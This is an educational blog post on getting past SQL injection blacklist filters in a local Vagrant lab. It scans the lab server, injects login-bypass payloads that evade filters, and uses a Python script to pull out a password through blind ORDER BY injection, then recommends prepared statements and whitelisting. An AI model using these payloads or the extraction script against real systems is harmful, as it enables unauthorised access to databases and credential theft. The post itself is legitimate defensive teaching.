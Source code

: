 :slug: sqli-manual-bypass/
:date: 2020-05-20
:category: attacks
:subtitle: Bypassing SQLi filters manually
:tags: security, web, vulnerability, ethical-hacking
:image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331101/blog/sqli-manual-bypass/cover_mbogji.webp
:alt: Photo by Kuma Kum on Unsplash
:description: SQL injection can be one of the most dangerous vulnerabilities. Here we will see how to bypass certain controls that developers put in their code.
:keywords: Web, Security, Vulnerability, Hacking, SQLi, Input Validation, Ethical Hacking, Pentesting
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/oBLk_2Iyisg

= Manual SQLi Bypass

Among the most recurring vulnerabilities are injection flaws,
not for nothing they are first in the link:https://owasp.org/www-project-top-ten/[OWASP Top Ten list].
This type of vulnerability
can disrupt your entire security and infrastructure;
almost any input can be an injection vector
and all must be controlled. Here, `SQL injection` plays a big role,
not only because of the risk of information leakage
but also because it can lead to remote command execution
or access to the internal network.

This vulnerability works when an attacker
injects code into the queries
that the application makes to the database
interfering with its normal operation.
This happens because the developers
did not validate data input properly
and did not apply the best practices
to retrieve data from the database.
Let me give you an example; imagine this piece of code:

.Common sqli vulnerable code
[source, PHP]
----
$user = $_POST['user'];
$passwd = $_POST['passwd'];
$sql = "select id from users where user='$user' and passwd='$passwd'";
----

Here I created a common login page code
that checks the username and password.
The variables are introduced through a `POST` request,
and there is no input validation.
An attacker could simply put
the well known `SQLi` payload `1' or '1'='1`
and bypass the login form.
But if I filter some characters like the `OR keyword`
or the `single quote` character,
then will it be ok? Not so much.

== SQLi Bypass lab

To set up our lab,
we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `sqli`
and save the `Vagrantfile` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir sqli
$ cd sqli
sqli$ nano Vagrantfile #Add the content here
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "jarmasatfluid/sqlitest"
  config.vm.box_version = "1"
  config.vm.network "private_network", ip: "192.168.56.2"

end
----

Then run the environment using

.vagrant up
[source, bash]
----
sqli$ vagrant up
----

This will create a `Linux` machine
with `LAMP` installed and configured.
At this point, everything we need has been completed
and is ready to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://portswigger.net/burp[Burpsuite]
* link:http://netcat.sourceforge.net/[Netcat]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://www.python.org/[Python]

If you are using `Kali`, then everything has already been installed by default.

We are ready to go.

== Enumerating our server

First, we need to check the server ports.
We can use `nmap` or `ncat` to do it.

.port scanning
[source, bash, linenums]
----
$ nmap 192.168.56.2
$ ncat -vz 192.168.56.2 80
----

.nmap output
[source, bash]
----
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-20 13:32 SA Pacific Standard Time
Nmap scan report for 192.168.56.2
Host is up (0.00051s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
MAC Address: 08:00:27:0A:C5:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
----

.nc
[source, bash]
----
Ncat: Connected to 192.168.56.2:80.
Ncat: 0 bytes sent, 0 bytes received in 0.31 seconds.
----

Our server runs `Apache` on `port 80`.
Then using `Dirbuster`, we can search for directories on the web server.

.dirbuster
[source, bash]
----
$ dirb http://192.168.56.2/

DIRB v2.22
By The Dark Raver

START_TIME: Mon May 20 11:26:17 2020
URL_BASE: http://192.168.56.2/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

 Scanning URL: http://192.168.56.2/
==> DIRECTORY: http://192.168.56.2/code/
+ http://192.168.56.2/index.html (CODE:200|SIZE:11321)
+ http://192.168.56.2/server-status (CODE:403|SIZE:277)

 Entering directory: http://192.168.56.2/code/
+ http://192.168.56.2/code/admin.php (CODE:302|SIZE:2075)
+ http://192.168.56.2/code/index.php (CODE:200|SIZE:1098)

END_TIME: Mon May 20 11:26:25 2020
DOWNLOADED: 9224 - FOUND: 4
----

As we can see, there is an admin site to which we do not have access
and a normal site where our test cases are.

== SQLi bypass attacks

There are three test cases;
the first one is the simplest.
It filters the `OR|AND` keywords
and also the space character.

.First SQLi filter
[source, PHP]
----
if(preg_match('/or|and| /i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
----

The username is not injectable
because it uses a prepared statement
(this was intended to show the correct way of doing queries).
If we put any of those characters into the query,
it should respond with a `Wrong` alert.

To bypass this, we need to substitute those keywords:
the `OR` keyword with the double pipe character `||`,
and the `AND` keyword with the double ampersand character `&&`.
In this case, we need to `URL encode` it
because of the content type of the web application
resulting in `%26%26`.
Finally, the space character
can be bypassed using several substitutions,
such as the following:

. The block comment `/&#42;&#42;/`
. The ascii `%09` horizontal tab character
. The ascii `%0a` new line character
. The ascii `%0b` vertical tab character
. The ascii `%0c` new page character
. The ascii `%0d` carriage return character

So, our well known SQLi payload
will change to something like
`'/&#42;&#42;/||/&#42;&#42;/1=1#`

.first bypass
----
POST /code/one.php HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.56.2
Connection: close
Referer: http://192.168.56.2/code/one.php
Upgrade-Insecure-Requests: 1

user=admin&password='/**/||/**/1%3d1%23&s=OK
----

The next test case is a little trickier,
it filters the same characters as before
plus the single quote character.
Also, it removes the use of the prepared statement
in the username variable
but validates the single quote character too.

.Second SQLi filter
[source, PHP]
----
if(preg_match('/\'/', $user)) exit("<script type='text/javascript'>alert('Wrong');</script>");
if(preg_match('/or|and| |\'/i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
$sql = "SELECT * FROM users WHERE user = '$user' and passwd = '$pass'";
----

So, what can we do to bypass this?
The backslash character `\` is a special escape character
used to indicate other special characters in strings.
This is useful in our case
because if we inject that character into the username input,
then the single quote character next to it
will act as a literal one,
and the username string will end next to the password input:

.Backslash example
[source, PHP]
----
$sql = "SELECT * FROM users WHERE user = '$user\' and passwd = '$pass'";
----

It's just a matter of injecting our code there;
the payload in the username will be `\`,
and in the password field it will be
`/&#42;&#42;/||/&#42;&#42;/1=1/&#42;&#42;/--`

.second bypass
----
GET /code/two.php?user=%5C&password=%2F**%2F%7C%7C%2F**%2F1%3D1%2F**%2F--&s=OK HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.56.2/code/two.php
Upgrade-Insecure-Requests: 1

----

The last example combines everything
and adds more filters to the code;
it is a different type of vulnerability
because we are going to bypass the filter
into an `ORDER BY` keyword.

.Third SQLi filter
[source, PHP]
----
if(preg_match('/\'|"|=|admin|substr|concat|group|ascii|or|and| |-|#|\s|\/\\\\|like|0x|col|case|when|sleep|benchmark/i',$_GET["by"])) exit("<script type='text/javascript'>alert('Wrong');</script>");
...
$stmt = $link->prepare("SELECT * FROM product where name like ? order by $order desc");
----

Here we can hardly use any keywords or functions,
and the `union select` won't work either.
To collect data from the database
from an `ORDER BY` keyword, we need to use
an error-based `SQLi` or a time-based one.

So, the first injection will be for testing the vulnerability,
let's inject a simple error-based `SQLi`
where, if it is true, then it will order the items using the id,
and if it is false, it will order them using the name:

. `?by=if(false,id,name)`
. `?by=if(true,id,name)`

Now, let's add another layer.
We want to get information out of this
and in order to do that we need to make some queries.
In this example, we will get the `guest` password
(if you want to get the admin password, you should try it yourself).
Because the characters `=`, single and double quotes are filtered,
we need another way to get the information of the user that we want.
Here we have the `IN` operator and the `CHAR` function.
The `IN` operator allows us to specify multiple values in a `WHERE` clause
but we can use only one if we want it,
and the `CHAR` function returns the `ASCII` character based on a number.
Using both elements, a query for the guest password
will be something like this:

.guest password query
----
select passwd from users where user in(CHAR(103,117,101,115,116))
----

Here the string `guest`
is the combination of `103,117,101,115,116` `ASCII` characters.
Now the `MID` function will help us
to strip characters from that query
and get the password character by character.
This query will get the first character of the password:

.guest password character
----
mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1)
----

Next, we need to compare it against another character;
here we are going to use `IN` and `CHAR` again:

.guest password comparison
----
mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1) in(CHAR(49))
----

Finally, we put our query into the previous `IF` function
and replace the spaces with the block comment:

.guest password comparison
----
?by=if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),1,1)/**/in(CHAR(49)),id,name)
----

With this, we can get the `guest` password
using the `ORDER BY` function.
Doing this manually would take quite a while,
let's automatize it using `Python`.
The first thing that we need
is a function that makes our queries
and returns the response:

.make request function
[source, Python]
----
def make_request(parms):
    """
    Makes the request
    """
    response = requests.get(URL, headers=HEADERS, params=parms,
                            cookies=COOKIES)
    return response.text
----

Then we need to iterate
through each element of the password
and each `ASCII` character:

.iterative query
[source, Python]
----
# Length of the password
for i in range(8):
  # All ASCII table
  for j in range(0, 128):
    query = 'if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),'+str(i)+',1)/**/in(CHAR('+str(j)+')),id,name)'

----

And finally, we check whether the list
is ordered by id:

.iterative query
[source, Python]
----
check = ">Description</th></tr></thead><tbody><tr><td>5"
if check in resp:
  PASSWORD += chr(j)
  break

----

That's it, create the exploit,
execute it, and wait for the result.
This could be done using any other query,
for example, getting the `MySQL` user password hash.

== Solution

The first thing that someone with this problem needs to do
is to implement prepared statements;
there is no way out of it.
Injections can occur at almost any (if not all) database provider.
With these statements, the software will present a robust data querying
and discard the use of dynamic queries.

The next step is to execute whitelists
to validate user input.
When the developers use blacklist filtering,
as in the examples above,
there is a risk of missing some parameter
that can allow the injection.
Whitelists are a better approach
because they only allow what is in them and nothing else.

Finally, there is the implementation of the principle of least privilege.
I've encountered several databases executing queries
using the root user;
it is better to use limited users in our applications
because it limits the range of action
of the attackers that, in the worst scenario,
get access to the database.

If you want more information about protections against `SQLi`,
you can check link:https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection[OWASP]
or our link:https://docs.fluidattacks.com/criteria/[*Criteria*].
